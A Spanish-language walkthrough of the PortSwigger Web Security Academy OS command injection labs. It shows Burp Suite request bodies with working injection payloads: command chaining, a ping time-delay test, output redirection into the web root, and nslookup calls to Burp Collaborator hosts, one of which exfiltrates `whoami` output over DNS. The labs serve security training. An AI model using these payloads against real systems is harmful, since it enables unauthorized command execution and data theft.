


# Os Command Injection

- [Os Command Injection](#os-command-injection)
  - [Executing arbitrary commands](#executing-arbitrary-commands)
    - [Lab 1: OS command injection, simple case](#lab-1-os-command-injection-simple-case)
  - [Blind OS command injection vulnerabilities](#blind-os-command-injection-vulnerabilities)
    - [Detecting blind OS command injection using time delays](#detecting-blind-os-command-injection-using-time-delays)
      - [Lab 2: Blind OS command injection with time delays](#lab-2-blind-os-command-injection-with-time-delays)
    - [Exploiting blind OS command injection by redirecting output](#exploiting-blind-os-command-injection-by-redirecting-output)
      - [Lab 4: Blind OS command injection with output redirection](#lab-4-blind-os-command-injection-with-output-redirection)
    - [Exploiting blind OS command injection using out-of-band (OAST) techniques](#exploiting-blind-os-command-injection-using-out-of-band-oast-techniques)
      - [Lab 5: Blind OS command injection with out-of-band interaction](#lab-5-blind-os-command-injection-with-out-of-band-interaction)
      - [Lab 6: Blind OS command injection with out-of-band data exfiltration](#lab-6-blind-os-command-injection-with-out-of-band-data-exfiltration)

## Executing arbitrary commands

### Lab 1: OS command injection, simple case

Entramos a algún producto y usamos el boton check stock pero esto lo haremos usando burp suite interceptando la consulta.


Lo mandamos al repeater donde podremos modificarlo y enviar el paquete. Usaremos la siguiente consulta:

```
productId=2&storeId=1 ; id
```


## Blind OS command injection vulnerabilities

### Detecting blind OS command injection using time delays

#### Lab 2: Blind OS command injection with time delays

Interceptamos el envío del feedback con Burp suite.



Probamos en los parametros en cual funciona agregarle `||ping+-c+10+127.0.0.1||`, el que funciona es el parametro email.

```
...
csrf=AH3gDeLKQ9z9wuUelG8ExXglulKqw6Bt&name=Gatoto&email=gato@gmail.com||ping+-c+10+127.0.0.1||&subject=adfsad&message=asdfasd
```

El resultado debería demorar por lo menos 10 segundos.

### Exploiting blind OS command injection by redirecting output

#### Lab 4: Blind OS command injection with output redirection
Interceptamos el paquete al enviar el feedback como el laboratorio anterior pero esta vez enviamos el resultado a la carpeta `/var/www/images`. Guardaremos la respuesta en un txt.

```
...
csrf=v8X6Ld2i21GljQMqjB9CKjDzrCqpSrhO&name=asdfasd&email=gato%40gmail.com||whoami>/var/www/images/miau.txt||&subject=asdas&message=asdasd
```

Ahora podremos ver el resultado en `https://acad1f931ec1c55bc03570a8007f0058.web-security-academy.net/image?filename=miau.txt`.

### Exploiting blind OS command injection using out-of-band (OAST) techniques

#### Lab 5: Blind OS command injection with out-of-band interaction

Interceptamos la consulta igual que los anteriores laboratorios.

Usaremos el **Burp Collaborator Client** para recepcionar las consultas externas.



Presionamos la opción de `copy to clipboard`, en nuestro caso nos copio la dirección `5x3n5ni2nt8kgaozaa78zab4mvsmgb.burpcollaborator.net`.

```
...
csrf=S1bia6kmPluBfw6osSYf7l0Q4ieyFGDt&name=asdf&email=gato%40gmail.com||nslookup+5x3n5ni2nt8kgaozaa78zab4mvsmgb.burpcollaborator.net||&subject=asdfsdf&message=asdfsad
```

Obtenemos los resultados en el burp collaborator.


#### Lab 6: Blind OS command injection with out-of-band data exfiltration

```
...
csrf=j0THGLFofHZKTMBkm5YE3ZTfkaTTSiQT&name=asdfas&email=gato%40gmail.com||nslookup+`whoami`.zsv3zamskchm3cmvtmioea5h187yvn.burpcollaborator.net||&subject=asdfasdf&message=asdfasd
```


